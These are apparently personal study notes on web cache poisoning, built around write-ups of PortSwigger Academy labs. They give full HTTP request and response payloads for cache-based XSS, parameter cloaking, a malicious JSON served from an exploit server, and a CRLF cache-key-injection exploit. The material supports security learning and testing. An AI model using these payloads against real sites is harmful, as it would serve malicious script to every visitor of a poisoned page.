

>[!question] What is Web Cache Poisoning?
>Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.

# Basic discovery process 

>[!info] Pre-requisites:
>- [Web Cache](Web%20Cache.md)

1. **Identify and evaluate unkeyed inputs**
   
   Web caches ignore unkeyed inputs when deciding whether to serve a cached response to the user. This behavior means that you can use them to inject your payload and elicit a "poisoned" response which, if cached, will be served to all users whose requests have the matching cache key. Therefore, the first step when constructing a web cache poisoning attack is identifying unkeyed inputs that are supported by the server.
   
   You can identify unkeyed inputs manually by adding random inputs to requests and observing whether or not they have an effect on the response but you can also automate the discovery process using [Param Miner](../Tools/Burpsuite.md#Param%20Miner). 
   
   
   
2. **Elicit a harmful response from the back-end server**
   
   Once you have identified an unkeyed input, the next step is to evaluate exactly how the website processes it. Understanding this is essential to successfully eliciting a harmful response. If an input is reflected in the response from the server without being properly sanitized, or is used to dynamically generate other data, then this is a potential entry point for web cache poisoning.
<br>
3. **Get the response cached**:

   Whether or not a response gets cached can depend on all kinds of factors, such as the file extension, content type, route, status code, and response headers. You will probably need to devote some time to simply playing around with requests on different pages and studying how the cache behaves. Once you work out how to get a response cached that contains your malicious input, you are ready to deliver the exploit to potential victims.

# Web Cache Poisoning Attacks

## XSS attacks using web cache poisoning

Unkeyed input is reflected in a cacheable response without proper sanitization:
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

The unkeyed input is used to deliver a [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md):
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

All users who accessed `/en?region=uk` would be served this XSS payload

The same can happens if the server imports external resources using unkeyed headers:
```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

## Web cache poisoning with unkeyed cookies

Poisoned the cache with a malicious cookie:


Whoever visits the root now gets the poisoned page:


## Using multiple headers to exploit web cache poisoning

Initial request:


Discovered a header that causes a 302 redirection:


Fuzzed all the custom headers and discovered a second one which alters the redirection to another host:


The home page loads the tracking javascript for any user visiting the page:
```js
...
<body>
<script type="text/javascript" src="/resources/js/tracking.js"></script>
...
```

Caching the redirection to the attacker site it is possible to poison all the user visiting the home page, redirecting them to a malicious javascript file.

## Exploiting cache implementation flaws

You can access a much greater attack surface for web cache poisoning by **exploiting quirks in specific implementations of caching systems**. In particular, we'll look at why [flaws in how cache keys are generated](Web%20Cache.md#Cache%20key%20flaws) can sometimes leave websites vulnerable to cache poisoning via separate vulnerabilities that are traditionally considered unexploitable. 

These newer techniques rely on flaws in the specific implementation and configuration of the cache, which may vary dramatically from site to site. This means that you need a deeper understanding of the target cache and its behavior. 

The methodology involves the following steps:
- [Identify a suitable cache oracle](Web%20Cache%20Implementation%20flaws.md#Identify%20a%20suitable%20cache%20oracle)
- [Probe key handling](Web%20Cache%20Implementation%20flaws.md#Probe%20key%20handling)
- [Identify an exploitable gadget](Web%20Cache%20Implementation%20flaws.md#Identify%20an%20exploitable%20gadget)

#### Unkeyed port

#### Unkeyed query string

To identify a dynamic page, you would normally observe how changing a parameter value has an effect on the response. But if the query string is unkeyed, most of the time you would still get a cache hit, and therefore an unchanged response, regardless of any parameters you add. Clearly, this also makes classic cache-buster query parameters redundant.
  
#### Unkeyed query parameters

Some websites only exclude specific query parameters that are not relevant to the back-end application, such as parameters for analytics or serving targeted advertisements.
  
```http
GET /?utm_content='/><script>alert(1)</script> HTTP/1.1
Host: 0af8004f04d10d9cc26dfc40003a00d1.web-security-academy.net
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Connection: close
Content-Length: 9912

<link rel="canonical" href='//0af8004f04d10d9cc26dfc40003a00d1.web-security-academy.net/?utm_content='/><script>alert(1)</script>


GET / HTTP/1.1
Host: 0af8004f04d10d9cc26dfc40003a00d1.web-security-academy.net
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=35
Age: 19
X-Cache: hit
Connection: close
Content-Length: 9867

<link rel="canonical" href='//0af8004f04d10d9cc26dfc40003a00d1.web-security-academy.net/?utm_content='/><script>alert(1)</script>
```

#### Cache parameter cloaking

**Cloaking using the query-string delimiter**

If you can work out how the cache parses the URL to identify and remove the unwanted parameters, you might find some interesting quirks. Of particular interest are any **parsing discrepancies** between the cache and the application. This can potentially allow you to sneak arbitrary parameters into the application logic by "cloaking" them in an excluded parameter.

>[!example]
>The de facto standard is that a parameter will either be preceded by a question mark (?), if it's the first one in the query string, or an ampersand (&). Some poorly written parsing algorithms will treat any ? as the start of a new parameter, regardless of whether it's the first one or not.
>
>`GET /?example=123?excluded_param=bad-stuff-here`
>
>The cache would identify two parameters and exclude the second one from the cache key. However, the server doesn't accept the second ? as a delimiter and instead only sees one parameter, example, whose value is the entire rest of the query string, including our payload. If the value of example is passed into a useful gadget, we have successfully injected our payload without affecting the cache key.

**Cloaking using parser differentials**

Similar parameter cloaking issues can arise in the opposite scenario, **where the back-end identifies distinct parameters that the cache does not**. The Ruby on Rails framework, for example, interprets both ampersands (&) and semicolons (;) as delimiters. When used in conjunction with a cache that does not allow this, you can potentially exploit another quirk to override the value of a keyed parameter in the application logic.

>[!example]
>`GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here`
>
>Many caches will only interpret this as two parameters, delimited by the ampersand:
>1.  `keyed_param=abc`
>2.  `excluded_param=123;keyed_param=bad-stuff-here`
>
>Once the parsing algorithm removes the `excluded_param`, the cache key will only contain `keyed_param=abc`. On the back-end, however, Ruby on Rails sees the semicolon and splits the query string into three separate parameters:
>1.  `keyed_param=abc`
>2.  `excluded_param=123`
>3.  `keyed_param=bad-stuff-here`


Once the reflection point was discovered and was also discovered that the `utm_content` was not keyed, a secondary `callback` parameter was appended to the query string, using `;` as separator, to inject and poison the javascript file:



**Cloaking using fat GET**

In select cases, the HTTP method may not be keyed. This might allow you to poison the cache with a `POST` request containing a malicious payload in the body. Your payload would then even be served in response to users' `GET` requests. Although this scenario is pretty rare, you can sometimes achieve a similar effect by simply adding a body to a `GET` request to create a "fat" `GET` request:

```http
GET /?param=innocent HTTP/1.1
...
param=bad-stuff-here


or
GET /?param=innocent HTTP/1.1
Host: innocent-website.com
X-HTTP-Method-Override: POST
...
param=bad-stuff-here
```

#### Normalized cache keys

Any normalization applied to the cache key can also introduce exploitable behavior. In fact, it can occasionally enable some exploits that would otherwise be almost impossible.

When you find reflected XSS in a parameter, it is often unexploitable in practice. This is because modern browsers typically URL-encode the necessary characters when sending the request, and the server doesn't decode them.

Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key:
```http
GET /example?param="><test> 
GET /example?param=%22%3e%3ctest%3e
```

If you send a malicious request using Burp Repeater, you can poison the cache with an unencoded XSS payload. When the victim visits the malicious URL, the payload will still be URL-encoded by their browser; however, once the URL is normalized by the cache, it will have the same cache key as the response containing your unencoded payload.

As a result, the cache will serve the poisoned response and the payload will be executed client-side. You just need to make sure that the cache is poisoned when the victim visits the URL.


#### Cache key injection

You will sometimes discover a client-side vulnerability in a keyed header. This is also a classic "unexploitable" issue that can sometimes be exploited using cache poisoning.

Keyed components are often bundled together in a string to create the cache key. If the cache doesn't implement proper escaping of the delimiters between the components, you can potentially exploit this behavior to craft two different requests that have the same cache key.

The following example uses double-underscores to delimit different components in the cache key and does not escape them. You can exploit this by first poisoning the cache with a request containing your payload in the corresponding keyed header:

```http
GET /path?param=123 HTTP/1.1
Origin: '-alert(1)-'__

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__

<script>…'-alert(1)-'…</script>
```

If you then induce a victim user to visit the following URL, they would be served the poisoned response:

```http
GET /path?param=123__Origin='-alert(1)-'__ HTTP/1.1

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__
X-Cache: hit

<script>…'-alert(1)-'…</script>
```

## Internal cache poisoning

Some websites implement caching behavior directly into the application in addition to using a distinct, external component. This can have several advantages, such as avoiding the kind of parsing discrepancies we looked at earlier. 

Instead of caching entire responses, some of these caches break the response down into reusable fragments and cache them each separately. For example, a snippet for importing a widely used resource might be stored as a standalone cache entry. Users might then receive a response comprising a mixture of content from the server, as well as several individual fragments from the cache.

As these cached fragments are intended to be reusable across multiple distinct responses, the concept of a cache key doesn't really apply. Every response that contains a given fragment will reuse the same cached fragment, even if the rest of the response is completely different. In a scenario like this, poisoning the cache can have wide-reaching effects, especially if you poison a fragment that is used on every page. As there is no cache key, you would have poisoned every page, for every user, with a single request.

This will often only require you to use basic web cache poisoning techniques, such as manipulating the `Host` header.

>[!question] How to identify internal caches?
>Application-level caches can be difficult to identify and investigate because there is often no user-facing feedback. To identify these caches, you can look for a few tell-tale signs.
>
>- If the response reflects a mixture of both input from the last request you sent and input from a previous request, this is a key indicator that the cache is storing fragments rather than entire responses. The same applies if your input is reflected in responses on multiple distinct pages, in particular on pages in which you never tried to inject your input.
>- The cache's behavior may simply be so unusual that the most logical conclusion is that it must be a unique and specialized internal cache.

---

# Vulnerability chain involving Web Cache Poisoning

## Host Header Injection + Web Cache Poisoning + DOM XSS

Many websites use JavaScript to fetch and process additional data from the back-end. If a script handles data from the server in an unsafe way, this can potentially lead to all kinds of [DOM-based vulnerabilities](DOM-based%20vulnerabilities.md).

If the website then passes the value of this property into a **sink** that supports dynamic code execution, the payload would be executed in the context of the victim's browser session. If you use web cache poisoning to make a website load malicious JSON data from your server, you may need to grant the website access to the JSON using [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md).

```http
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *

{"country": ""}
```

Discovered a [Host Header](Host%20Header%20attacks.md) injection causing the server to cache a different host:
```http
GET /product?productId=1&foo=c HTTP/1.1
Host: 0a2300630300763180745d5f008e00f5.web-security-academy.net
X-Forwarded-Host: 0xbro.com

HTTP/1.1 200 OK
Cache-Control: max-age=30
Age: 0
X-Cache: miss

<script>
	data = {
		"host":"0xbro.com",
		"path":"/product",
	}
</script>
...
<script>
	initGeoLocate('//' + data.host + '/resources/json/geolocate.json');
</script>
```

`initGeoLocate()` contains a sink whose data can be controlled using the cache poisoning:
```js
function initGeoLocate(jsonUrl)
{
    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            let geoLocateContent = document.getElementById('shipping-info');

            let img = document.createElement("img");
            img.setAttribute("src", "/resources/images/localShipping.svg");
            geoLocateContent.appendChild(img)

            let div = document.createElement("div");
            div.innerHTML = 'Free shipping to ' + j.country; // {"country": "United Kingdom"}
            geoLocateContent.appendChild(div)
        });
}
```

Served the malicious payload on the attacker's server (`/resources/json/geolocate.json`):
```http
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *

{"country": ""}
```


## Host Header Injection + Web Cache Poisoning + Arbitrary Cookie Set + DOM XSS

Discovered a [Host Header Injection](Host%20Header%20attacks.md) causing the server to cache a different host:
```html
GET / HTTP/1.1
Host: 0aca005504fea6bb81c1c683009c0050.web-security-academy.net
x-forwarded-host: exploit-0a2c005f048da6408158c54201190023.exploit-server.net


HTTP/1.1 200 OK
<script>
	data = {
		"host":"exploit-0a2c005f048da6408158c54201190023.exploit-server.net",
		"path":"/",
	}
</script>
...
<script type="text/javascript" src="\resources\js\translations.js"></script>
...
<form>
	<select id=lang-select onchange="((ev) => { ev.currentTarget.parentNode.action = '/setlang/' + ev.target.value; ev.currentTarget.parentNode.submit(); })(event)">
	</select>
</form>
...
<script>
	initTranslations('//' + data.host + '/resources/json/translations.json');
</script>
```

Discovered the `X-Original-URL` is supported:
```http
GET / HTTP/1.1
Host: 0aeb00c2044baa0e81c5200600a7007f.web-security-academy.net
x-forwarded-host: exploit-0ab8008104a2aaac81651f59016600cc.exploit-server.net
X-Original-URL: /setlang/0xbro?
Connection: close


HTTP/1.1 302 Found
Location: /?localized=1
Cache-Control: private
Set-Cookie: lang=0xbro; Path=/; Secure
```

Detected an arbitrary cookie set vulnerability (noticed that the `?localized=1` works as a cache buster):
```http
GET /setlang/foo? HTTP/1.1
Host: 0aca005504fea6bb81c1c683009c0050.web-security-academy.net

HTTP/1.1 302 Found
Location: /?localized=1
Cache-Control: private
Set-Cookie: lang=foo; Path=/; Secure
```

`/resources/js/translations.js` contains a sink whose data can be controlled using the arbitrary cookie set:
```js
function initTranslations(jsonUrl)
{
    ...

    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            const select = document.getElementById('lang-select');
            if (select) {
                for (const code in j) {
                    const name = j[code].name;
                    const el = document.createElement("option");
                    el.setAttribute("value", code);
                    el.innerText = name; // this value is retrieved by the JSON from the server --> {"0xbro": {"name": "foo"}}
                    select.appendChild(el);
                    if (code === lang) {
                        select.selectedIndex = select.childElementCount - 1;
                    }
                }
            }
...
}
```

PoC 

Set `/resources/json/translations.json` with a malicious payload and a specific key(`0xbro`):
```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Access-Control-Allow-Origin: *

{
    "en": {
        "name": ""
    },
    "0xbro": {
        "name": "",
        "translations": {
            "Return to list": "",
            "View details": "",
            "Description:": ""
        }
    }
}
```

Poisoned the server the first time in order to set the arbitrary cookie value.
>[!warning]
>I used `/setlang\0xbro?` because `/setlang/0xbro?` sets cookies and cannot be cached. `/setlang\0xbro` instead is normalized by the server and also cached:

```http
GET / HTTP/1.1
Host: 0aeb00c2044baa0e81c5200600a7007f.web-security-academy.net
x-forwarded-host: exploit-0ab8008104a2aaac81651f59016600cc.exploit-server.net
X-Original-URL: /setlang\0xbro?
Connection: close


HTTP/1.1 302 Found
Location: /setlang/0xbro
ache-Control: max-age=30
Age: 2
X-Cache: hit
```

Poisoned the redirect page in order to retrieved the poisoned JSON:
```http
GET /?localized=1 HTTP/1.1
Host: 0aeb00c2044baa0e81c5200600a7007f.web-security-academy.net
x-forwarded-host: exploit-0ab8008104a2aaac81651f59016600cc.exploit-server.net
Connection: close


<script>
	data = {
		"host":"exploit-0ab8008104a2aaac81651f59016600cc.exploit-server.net",
		"path":"/",
	}
</script>
```

Every user visiting the home page is redirected to the second poisoned page (while the arbitrary language is set), where the malicious JSON is downloaded:


## Cache Parameter Cloaking + HTTP Param Pollution + Header Injection + Cache Key Injection 

Redirection chain:
```http
GET / HTTP/1.1
Pragma: x-get-cache-key


HTTP/1.1 302 Found
Location: /login?lang=en
X-Cache-Key: /$$

---

GET /login?lang=en HTTP/1.1
Pragma: x-get-cache-key
Origin: test.com


HTTP/1.1 302 Found
Location: /login/?lang=en
X-Cache-Key: /login?lang=en$$Origin=test.com

---

GET /login/?lang=asd HTTP/1.1
Pragma: x-get-cache-key


HTTP/1.1 200 OK

<link rel="canonical" href='//0a3c0044037d28bd8061ee010087006f.web-security-academy.net/login/?lang=asd'/>
...
<script src='/js/localize.js?lang=asd&cors=0'></script>

---

GET /js/localize.js?lang=asd&cors=0 HTTP/1.1
Pragma: x-get-cache-key


HTTP/1.1 200 OK
X-Cache-Key: /js/localize.js?lang=asd&cors=0$$

document.cookie = 'lang=asd';

```

>[!bug] Vuln #1: [Cache parameter cloaking](Web%20Cache%20Poisoning.md#Cache%20parameter%20cloaking)
>`/login` excludes the parameter `utm_content` from the cache key using a flawed regex.
>```http
>GET /login?lang=en HTTP/1.1
>Pragma: x-get-cache-key
>
>HTTP/1.1 302 Found
>Location: /login/?lang=en
>X-Cache-Key: /login?lang=en$$
>
>---
>
>GET /login?lang=en?utm_content=bar HTTP/1.1
>Pragma: x-get-cache-key
>
>HTTP/1.1 302 Found
Location: /login/?lang=en
X-Cache-Key: /login?lang=en$$
>```

>[!bug] Vuln #2: [HTTP Parameter Pollution (HPP)](HTTP%20Parameter%20Pollution%20(HPP).md)
>`/login/` imports a JavaScript file passing the same parameters used by the request. In this way arbitrary parameters can be passed to the script.
>
>*/login/?lang=en?utm_content=bar*
>```html
>...
> <script src='/js/localize.js?lang=en?utm_content=bar&cors=0'></script>
> ...
>```

>[!bug] Vuln #3: Header Injection using `Oring` + Cache Key Injection
>The application sets and caches arbitrary Origins when `cors=1`. The same cache key set when the origin is used can also be obtained using only HTTP GET parameters:
>```http
>GET /js/localize.js?lang=en?foo=bar&cors=1 HTTP/1.1
Host: 0ace00a30364b16c80e7b8ec0017003c.web-security-academy.net
Origin: 0xbro.red%0d%0aFoo:%20bar$$
Pragma: x-get-cache-key
Connection: close
>
>
>HTTP/1.1 200 OK
>Access-Control-Allow-Origin: 0xbro.red
>Foo: bar$$
>X-Cache-Key: /js/localize.js?lang=en?foo=bar&cors=1$$Origin=0xbro.red%0d%0aFoo:%20bar
>
>document.cookie = 'lang=en?foo=bar';
>
>
>GET /js/localize.js?lang=en?foo=bar&cors=1$$Origin=0xbro.red%0d%0aFoo:%20bar HTTP/1.1
>Pragma: x-get-cache-key
>
>HTTP/1.1 200 OK
>X-Cache-Key: /js/localize.js?lang=en?foo=bar&cors=1$$Origin=0xbro.red%0d%0aFoo:%20bar$$
>
>``` 

Final exploit:

```http
GET /js/localize.js?lang=en?utm_content=z&cors=1&x=1 HTTP/1.1
Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$

HTTP/1.1 200 OK
Access-Control-Allow-Origin: x
X-Cache-Key: /js/localize.js?lang=en?cors=1&x=1$$Origin=x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$
Connection: close
Content-Length: 8

alert(1)


GET /login?lang=en?utm_content=x%26cors=1%26x=1$$Origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23 HTTP/1.1

HTTP/1.1 302 Found
Location: /login/?lang=en?utm_content=x%26cors=1%26x=1$$Origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23
X-Cache-Key: /login?lang=en$$
```


# External Resources

- [Practical Web Cache Poisoning](https://portswigger.net/research/practical-web-cache-poisoning)
- [Web Cache Entanglement: Novel Pathways to Poisoning](https://portswigger.net/research/web-cache-entanglement)
